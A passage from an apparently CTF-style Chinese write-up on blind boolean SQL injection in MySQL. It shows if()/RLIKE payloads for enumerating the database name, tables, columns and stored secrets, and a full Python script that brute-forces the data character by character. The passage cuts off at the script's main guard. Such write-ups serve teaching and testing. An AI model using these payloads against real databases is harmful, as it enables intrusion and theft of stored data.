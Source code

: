 也就是说，当 if 语句中的条件为真时，这个查询才会将 password 查询出来

如果 if 语句为假，这个条件为假的查询就不成立，查询的结果也为空了

从上面这个例子里我们就可以得出当前 MySQL 为 MySQL 5

如此一来我们就可以通过枚举爆破得到数据库名，表名，列名，进而得到数据库中存储的数据了

其中关键的语句如下

```sql
if(DATABASE() rlike '^{exp}',1,0) # 获取数据库名
if((SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) rlike '^{exp}',1,0) # 获取表名与字段名
if((SELECT binary GROUP_CONCAT(secret_string) FROM secret) rlike '^{exp}',1,0) # 获取存储的数据
```

完整 exp 如下

```python
from mysqli_invisible_bool import *
import string
import io
import sys

def escape_string(c):
    return "\\" + c if c in ".+*" else c

def exp():
    payload_template = "Liki4' AND if({exp},1,0);#"
    space = string.ascii_letters + string.digits + ' _:,$.'

    exp_template = "@@version RLIKE '^{c}'"
    exp_template = "DATABASE() RLIKE '^{c}'"
    exp_template = "(SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) RLIKE '^{c}'"
    exp_template = "(SELECT binary GROUP_CONCAT(secret_string) FROM secret) RLIKE '^{c}'"

    print(exp_template)

    Flag = True

    data = ""

    while Flag:
        ori_stdout = sys.stdout
        for c in space:
            payload = payload_template.format(exp=exp_template.format(c=data+c))
            sys.stdin = io.StringIO(payload + '\n123\n')
            res = sys.stdout = io.StringIO()
            main()
            output = str(res.getvalue())
            if "failed" in output:
                continue
            if c == "$":
                Flag = False
                break
            if "success" in output:
                data += c
                break
        sys.stdout = ori_stdout
        if Flag:
            print(data, end="\r")
        else:
            print(data)

if __name__ == "__main__":
```